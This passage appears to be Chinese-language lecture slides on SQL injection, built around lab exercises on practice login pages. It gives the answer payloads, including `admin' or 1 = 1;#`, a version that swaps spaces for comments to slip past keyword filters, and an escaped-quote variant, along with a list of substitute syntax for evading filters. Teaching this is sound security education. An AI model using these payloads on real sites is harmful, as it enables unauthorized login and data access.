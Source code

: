 然後也因為有選出東西，所以就可以跳過登入了

---

打打看

<http://140.134.25.138:10013/login.php>

----

解答:
`admin' or 1 = 1;#`

---

有時候開發者會出於安全性(但是偷懶)

只去過濾掉一些關鍵字

---

一些同義詞語法

- 空白
  - `/* 註解 */`
- true
  - `87=87`
- false
  - `1=0`
- and
  - `&&`
- or
  - `||`

---

打打看

<http://140.134.25.138:10019/>

----

`admin'/**/or/**/1/**/=/**/1;#`

---

在試試一題

---

打打看

<http://140.134.25.138:10020/>

----

`admin\' or 1 = 1;#`

---
